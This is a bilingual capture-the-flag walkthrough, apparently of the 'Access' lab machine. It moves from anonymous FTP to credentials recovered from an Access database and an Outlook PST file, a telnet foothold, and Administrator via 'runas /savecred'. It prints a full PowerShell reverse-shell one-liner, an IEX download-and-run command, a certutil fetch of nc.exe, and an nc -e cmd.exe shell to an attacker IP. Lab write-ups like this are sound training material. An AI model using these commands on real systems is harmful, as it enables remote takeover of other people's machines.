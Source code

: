 # Access\_98

![image-20200918211934278](assets/Access_98.assets/image-20200918211934278.png)

## Scan results

![1 ](assets/Access_98.assets/F97EA608-E47E-4DE6-8896-3BAC2687AA27.png)

![image-20200918212709128](assets/Access_98.assets/image-20200918212709128.png)

首先从ftp开始测试

Try test begin at FTP

FTP allowed anonymous access

![image-20200918212856823](assets/Access_98.assets/image-20200918212856823.png)

搜索ftp内的内容

Search everything in FTP, we found two files, `Access Control.zip` and `backup.mdb`.

![2](assets/Access_98.assets/0FF6FFBA-49DE-4129-B449-6A5E12BFA87A.png)

![3 ](assets/Access_98.assets/543796BB-8EA9-492B-87FB-44E69BD005E3.png)

![4 ](assets/Access_98.assets/114105A2-9AEA-401F-872F-2242460ACAAF.png)

更改传输模式并将文件夹中的两个文件下载下来

We can use `binary` command to trun the trans type to binary , then transfer the two files back to Kali.

![5 ](assets/Access_98.assets/E6A9351E-DC63-439D-9C5A-6EE043C3C08A.png)

`backup.mdb`看文件名应该是Access数据库的备份，`.mdb`是微软Access数据库文件的后缀名。

我门可以使用`mdb-tables`命令对数据库文件进行快速查看

`backup.mdb`looks like a backup file from Microsoft Access database.

We can use `mdb-tables` to check this file easily .

```bash
$ mdb-tables backup.mdb
```

![image-20200918214757034](assets/Access_98.assets/image-20200918214757034.png)

结果非常杂乱，但是我们可以注意到有一些跟用户验证及权限有关的数据表。

The results are so mass, but we still can saw some tables about user, auth and permissions.

可以使用`mdb-export`导出感兴趣的数据表。

We can use `mdb-export` to export database table which we interested in.

```bash
$ mdb-export backup.mdb auth_user
```

![image-20200918215810429](assets/Access_98.assets/image-20200918215810429.png)

在`auth_user`表中得到了三组凭证。

```bash
admin:admin
engineer:access4u@security
backup_admin:admin
```

使用这三个凭证去尝试解压剩下的压缩文件`Access Control.zip`。

正确的凭证是`engineer:access4u@security`

解压后得到新的文件`Access Control.pst`

![6 ](assets/Access_98.assets/87F20E7B-C020-4C82-9C31-21BEAA353D89.png)

得出的.pst文件是 Microsoft Outlook 个人文件夹文件

可以使用readpst工具

```bash
$ readpst -tea -m Access\ Control.pst
```

![image-20200918221027940](assets/Access_98.assets/image-20200918221027940.png)

得到新的文件，查看文件发现新的凭证

![image-20200918221120702](assets/Access_98.assets/image-20200918221120702.png)

```bash
security:4Cc3ssC0ntr0ller
```

这个凭证应该可以在其他服务上利用

查看80端口

![image-20200918221446602](assets/Access_98.assets/image-20200918221446602.png)

查看23端口

![image-20200918221542185](assets/Access_98.assets/image-20200918221542185.png)

23端口可以使用这个凭证直接登陆，获得user

![image-20200918221718555](assets/Access_98.assets/image-20200918221718555.png)

现在我们拥有一个普通用户权限的shell,但是这个shell非常不稳定

在kali本地准备一个powershell脚本，比如nishang

地址[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

注意修改kali ip

```text
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

在kali本地建立简单的php服务

```bash
$ php -S 0.0.0.0:80
```

并且在kali 4444端口设立监听

```bash
$ nc -nvlp 4444
```

在目标23端口的shell执行

```text
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.3/shell.ps1')
```

这时我们可以在kali监听端口获得一个更稳定的shell

进行一些提权前的常规枚举后，可以发现，目标机器使用了保存凭证功能，并且保存的是管理员的凭证

![image-20200918224048143](assets/Access_98.assets/image-20200918224048143.png)

拥有保存 的凭证就意味着可以直接使用`runas`命令以管理员权限运行命令

想使用certutil 将 nc 下载到靶机本地

```text
certutil -urlcache -split -f http://10.10.14.3/nc.exe nc.exe
```

在kali上新的端口设立另外一个监听

然后使用`runas`利用管理员权限向我们的监听端口通讯

```text
runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.3 1337"
```

Root

![image-20200918225847881](assets/Access_98.assets/image-20200918225847881.png)

## 额外知识

Windows可能出于多种原因存储凭据。

其中之一是，系统管理员可能已将应用程序配置为以管理用户身份运行，并且指定了“ / savecred”开关。

Windows中没有办法将“ runas / savecred”特权的使用限制为单个应用程序

-一旦配置了该特权，runas可用于运行任何特权提升的命令。

那系统管理员为什么选择使用“ runas / savecred”呢？

某些原因是使他们不必重复输入（或提供）管理员密码，或者可能是为了运行特权较高的应用程序以绕过应用程序白名单或允许进行写访问到受保护的应用程序目录。

通常，“ runas / savecred”用于创建快捷方式，用户单击该快捷方式即可运行所需的应用程序。以下命令用于枚举系统上所有可访问的快捷方式（.lnk）文件，并检查它们是否存在“ runas”命令。

```text
Get-ChildItem "C:\" *.lnk -Recurse -Force | ft fullname | Out-File shortcuts.txt
ForEach($file in gc .\shortcuts.txt) { Write-Output $file; gc $file |Select-String runas }
```

